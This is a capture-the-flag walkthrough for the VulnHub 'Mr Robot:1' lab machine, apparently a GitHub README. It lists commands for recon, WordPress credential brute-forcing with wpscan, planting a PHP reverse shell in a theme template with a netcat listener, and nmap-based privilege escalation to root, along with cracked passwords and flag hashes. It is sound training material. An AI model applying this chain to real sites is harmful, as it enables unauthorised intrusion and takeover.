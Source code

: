 [![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)](#) 
[![Virtual Lab](https://img.shields.io/badge/VirtualBox-183A61?style=for-the-badge&logo=virtualbox&logoColor=white)](#) 
[![VulnHub](https://img.shields.io/badge/VulnHub-26A69A?style=for-the-badge&logo=v&logoColor=white)](https://www.vulnhub.com) 
[![Mr Robot:1](https://img.shields.io/badge/Mr_Robot_1-D32F2F?style=for-the-badge&logo=robots&logoColor=white)](https://www.vulnhub.com/entry/mr-robot-1,151/) 
[![Nmap](https://img.shields.io/badge/Nmap-4CAF50?style=for-the-badge&logo=n&logoColor=white)](https://nmap.org) 
[![Wpscan](https://img.shields.io/badge/Wpscan-F44336?style=for-the-badge&logo=wordpress&logoColor=white)](https://github.com/wpscanteam/wpscan) 
[![Dirsearch](https://img.shields.io/badge/Dirsearch-FF9800?style=for-the-badge&logo=search&logoColor=white)](https://github.com/maurosoria/dirsearch) 
[![Netcat](https://img.shields.io/badge/Netcat-9E9E9E?style=for-the-badge&logo=nc&logoColor=white)](https://nc110.sourceforge.io/)  [![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)](https://www.python.org)  [![Bash](https://img.shields.io/badge/Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white)](https://www.gnu.org/software/bash/)  [![WordPress](https://img.shields.io/badge/WordPress-21759B?style=for-the-badge&logo=wordpress&logoColor=white)](https://wordpress.org)  
[![Reverse Shell](https://img.shields.io/badge/Reverse_Shell-000000?style=for-the-badge&logo=linux&logoColor=white)](#)  [![CrackStation](https://img.shields.io/badge/CrackStation-5D4037?style=for-the-badge&logo=lock&logoColor=white)](https://crackstation.net)  

# Walkthrough Mr Robot:1

## Setting up the machine
The machine is set up in a closed environment [internal adapter] in ther virtual machine enabling communication only through that adapter.

### Setup a Virtual Lab
1. Setup the Network to be internal adapter and name it `Test-network`.
2. In the command prompt in the windows go to the virtual Box directory 
```cmd
cd "\Program Files\Oracle\VirtualBox"
```
3. Now type in
```cmd
vboxmanage dhcpserver add --network=Test-network --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```
This enables the dhcp server virtually and allocates the ip address for range 10.38.1.110-120.

4. Now you have to enable another adapter for your kali linux machine having connection with the internal adapter `Test-network`.
![Screenshot 1](./pictures/0.png "Screenshot of the setup")
5. Boot up Both the machines.
 



--
## Guide:
### Key-1-of-3
1. Run the below command to know the available devices.
```bash
sudo arp-scan -l 
```
![ifconfig1](\pictures\2 "ifconfig")
You can see my ip address.

![arp-scan -l](\pictures\1 "ifconfig")
Now we know the Ip addresses.
### Ip-addresses :
| Ip address  | Associated device |
| ------------- |:-------------:|
| 10.38.1.112      | Kali-VM     |
| 10.38.1.113      | Mr_Robot     |

2. Run the command   
```bash
nmap -p- -A 10.38.1.113 -oN scan.txt
``` 
![nmap](\pictures\3 "nmap -p- -A 10.38.1.113 -oN scan.txt")
Here is the screenshot of scan report.

3. From the scan, Port 80 is open indicating an active web server in there
4. Go to the Browser and try to open ther site.
5. Since this is a web server, we can see whether there are any hidden directories in there
```bash
dirsearch -u http://10.38.1.113/
```
![Dirsearch](\pictures\4 "Dirsearsh result")

This image shows the output of dirsearch which has successfull pages [code = 200]
6.By examining all the sites, we can see the key in robots.txt; `http://10.38.1.113/robots.txt`.
![Robots.txt](\pictures\4 "Robots")

7. By going to the site `http://10.38.1.113/key-1-of-3.txt` we can see the 1st key
```
073403c8a58a1f80d943455fb30724b9
```

### Key-2-of-3.txt

1. In the same `http://10.38.1.113/robots.txt`, we find a `.dic` file containing large number of elements 
use `wc <filename>` to see the number of entries in the file.
2. We can observe that the words are repeated and in the file.
3. Use the command below, to sort it and write to another file
```bash
cat fsocity.dic | sort -u > sorted_fsocity.txt
```
4. If we have a look at the directories, we can notice a wordpress login page
![Dirsearch-wplogin](\pictures\6 "wordpress").
5. Open the link in the browser - `http://10.38.1.113/wp-login.php`.
6. We have a login page and a wordlist.
7. use `wpscan` to enumirate for the available users.
```bash
wpscan -v --url http://10.38.1.113/wp-login.php --enumerate --users-list sorted_fsocity.txt -o wpscan.txt
```
![wp-users](\pictures\7 "wordpress- users enumirated and found users").
Users available in the server

8. Password enumiration : 
```bash
wpscan -v --url http://10.38.1.113/wp-login.php -U "elliot" -P sorted_fsocity.txt -o password_elliot.txt
```
![Wp - password](\pictures\8 "Password for the user elliot").
Password for the user elliot.

9. Now login to the user using the credentilas we got `Username: elliot, Password: ER28-0652` 
10. Navigate to the `appearance -> editor -> 404 Template*`
11. Here we shall place a script that opens a shell [reverse shell]
12. Type in `locate php-reverse` and copy the file named `/usr/share/laudanum/wordpress/templates/php-reverse-shell.php` to your `pwd`.
13. Edit the ip address and portnumber to Ip = your kali linux ip address and port number = default https port number, In  my case its `IP: 10.38.1.112` & `Port: 443`.
14. Now open a new terminal instance `ctrl+shift+T` and type in the below command to start listining to the `Port 443`.
```bash
sudo nc -lvnp 443
```
15. Once yoy started this, go to the browser and type in any name followed by the ipaddress of the server
```web
For example : http://10.38.1.113/hi
```
![shell](\pictures\9 "reverse shell")
This results a forbidden page and our script is there in forbidden page and it gets executed. leading to `daemon` shell behind.

16. Here the choice of template made in `10th step` is not to be only `404 template`. It can be any of the listed. but redirecting to a forbidden page is a way more easier that redirecting to any particular page to `execute` the script. Any page that has a `client-side` error returns `404` and makes executing the script easy.
17. Now navigate to `cd home/robot` to find a `Key-2-of-3.txt` owned by user, `robot` and a `password.raw-md5` hash file containing the hash of the robot password saying, `robot:c3fcd3d76192e4007dfb496cca67e13b`
18. Decrypting the hash using ![crackstation](https://crackstation.net/) , we get the password as `abcdefghijklmnopqrstuvwxyz`
19. Type in `sudo su` -> this results in `su: must be run from a terminal`.
```Explaination
This is because the demon by default has no shell;
`$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
`
The above output says that.
since we dont have a shell we cannot switch users.
```
20. execute the below script in ther shell to invoke a bash shell for the user `daemon`
```bash
python -c 'import pty;pty.spawn("/bin/bash")'

```
21. Now we have a shell and we can login using `sudo su robot` and the `password : abcdefghijklmnopqrstuvwxyz`
22. Now we can see the contents of the file `Key-2-of-3.txt`
23. `Key-2-of-3.txt : 822c73956184f694993bede3eb39f959`

### Key-3-of-3.txt:

1. For this key we use the interactive mode of nmap which inturn can lead to a root shell 
![nmap vulnerability](https://vk9-sec.com/nmap-privilege-escalation/)
```Previlage Esclation 
In a interactive mode if we type in `!/bin/bash` we get the bash shell 
The maximum previlage is root, Nmap runnig in highest previlage causes this.
```
2. nmap --interactive
    1. Runs the nmap with higher previlage [previlage escalation]
    2. In an interactive mode if "!bash" is typed in, then the shell gets opened with the previlage of the interacting software.
    3. his results in higher previlage shell out.
    4. If !bash is typed in
        results, a current user owned bash shell
    5. If !sudo /bin/bash is typed in,
        results in saying
                `nmap> !sudo /bin/bash
                !sudo /bin/bash
                [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
                robot is not in the sudoers file.  This incident will be reported.`

3. Robot is not in the sudoers file.

4. However, we are able to invoke a shell 
5. Since sh is a root owned shell by default, try
    1. `!sh` [this is a root shell by default].
        this resulted in ,
        nmap> !sh
        !sh
        `#` whoami
        `root`
6. Finally we got the `root` shell so we can see the contents of the root and there you go `cat /root/key-3-of-3.txt` and the key is `04787ddef27c3dee1ee161b21670b4e4`



















